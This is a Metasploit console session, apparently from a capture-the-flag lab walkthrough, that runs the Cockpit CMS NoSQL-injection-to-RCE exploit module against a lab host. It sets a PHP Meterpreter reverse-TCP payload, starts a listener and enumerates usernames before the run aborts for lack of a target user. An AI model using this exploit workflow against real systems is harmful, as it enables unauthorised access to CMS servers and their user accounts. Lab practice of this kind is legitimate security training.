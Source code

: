```bash
msf6 > search cockpit

Matching Modules
================

   #  Name                                Disclosure Date  Rank    Check  Description
   -  ----                                ---------------  ----    -----  -----------
   0  exploit/multi/http/cockpit_cms_rce  2021-04-13       normal  Yes    Cockpit CMS NoSQLi to RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/cockpit_cms_rce

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/cockpit_cms_rce) > show options

Module options (exploit/multi/http/cockpit_cms_rce):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   ENUM_USERS  true             no        Enumerate users
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The URI of Cockpit
   USER                         no        User account to take over
   VHOST                        no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf6 exploit(multi/http/cockpit_cms_rce) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/http/cockpit_cms_rce) > set RHOSTS cmspit.thm
RHOSTS => cmspit.thm

msf6 exploit(multi/http/cockpit_cms_rce) > run

[*] Started reverse TCP handler on 10.17.6.87:4444 
[*] Attempting Username Enumeration (CVE-2020-35846)
[+]   Found users: ["admin", "darkStar7471", "skidy", "ekoparty"]
[-] Exploit aborted due to failure: bad-config: 10.10.103.36:80 - User to exploit required
[*] Exploit completed, but no session was created.
```
